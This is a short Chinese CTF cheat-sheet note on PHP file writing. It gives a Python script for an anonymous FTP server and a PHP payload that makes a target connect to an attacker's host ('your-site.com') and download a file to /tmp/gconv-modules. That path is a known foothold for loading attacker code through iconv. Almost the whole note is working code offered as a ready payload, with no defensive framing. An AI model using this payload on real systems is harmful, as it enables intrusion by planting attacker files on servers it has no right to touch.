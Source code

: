 tags:: CTF/PHP/文件写入

- # 准备
	- pip安装pyftpdlib,创建一个main.py(内容如下)，然后在同级创建ftp文件夹，里面放你的文件
	- 然后，启动！
	- ```python
	  import os
	  from pyftpdlib import servers
	  from pyftpdlib.handlers import FTPHandler
	  from pyftpdlib.authorizers import DummyAuthorizer
	  
	  def run_ftp_server():
	      # 创建一个虚拟用户并设置密码和路径
	      authorizer = DummyAuthorizer()
	      authorizer.add_anonymous("./ftp/")
	  
	      # 实例化FTP处理程序并配置它
	      handler = FTPHandler
	      handler.passive_ports = range(3005, 3010)
	      handler.authorizer = authorizer
	  
	      # 配置服务器接口和端口
	      server = servers.FTPServer(("0.0.0.0", 3002), handler)
	  
	      # 开启服务器
	      server.serve_forever()
	  
	  run_ftp_server()
	  ```
- # 使用
	- 多汁的PHP payload
		- ```php
		  
		  $ftp_server = 'your-site.com';
		  $ftp_port = 3002;
		  $ftp = ftp_connect($ftp_server, $ftp_port);
		  
		  if (!$ftp) {
		      echo "无法连接到FTP服务器";
		      exit;
		  }
		  
		  $login = ftp_login($ftp, 'anonymous', '');
		  if (!$login) {
		      echo "登录FTP服务器失败";
		      exit;
		  }
		  
		  $local_file = '/tmp/gconv-modules'; # 目标地址
		  $server_file = 'gconv-modules'; # 服务器上的地址
		  
		  ftp_pasv($ftp, 1);
		  @unlink($server_file);
		  if (ftp_get($ftp, $local_file, $server_file, FTP_BINARY)) {
		      echo "文件成功下载到 $local_file ";
		  } else {
		      echo "下载文件失败";
		  }
		  
		  ftp_close($ftp);
		  
		  ```